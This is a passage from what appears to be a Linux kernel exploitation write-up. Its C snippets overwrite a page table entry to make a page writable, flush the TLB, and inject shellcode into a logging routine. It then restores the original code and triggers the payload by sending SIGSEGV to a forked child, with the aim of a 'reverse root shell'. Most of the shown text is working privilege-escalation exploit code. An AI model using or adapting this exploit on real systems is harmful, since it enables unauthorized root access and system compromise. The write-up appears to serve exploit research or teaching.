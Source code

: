 ```C

/* set the pte with permissions to inject code */
*(uint64_t *) (victim + offset_pgt) = (((pte_logline >> 12) << 12) & 0xffffffffff) | 0xe8000000000f43;

/* replace tlb cache */
replace_tlb();

/* inject code */
memcpy(page + offset_logline, shellcode, 287);
```

After achieving LPE we can restore it:

```C
/* restaure code */
memcpy(page + offset_logline, logline, 287);
```

## Trigger and getting reverse root shell

We always saw in dmesg `segfault...` :) We just have to do this:

```C
int pid = fork();
	
if (!pid) {
	sleep(1);
	exit(139);
}

kill(pid, SIGSEGV);

sleep(3);
```

##### Demo

![thumb](/assets/images/thumb_4.png)
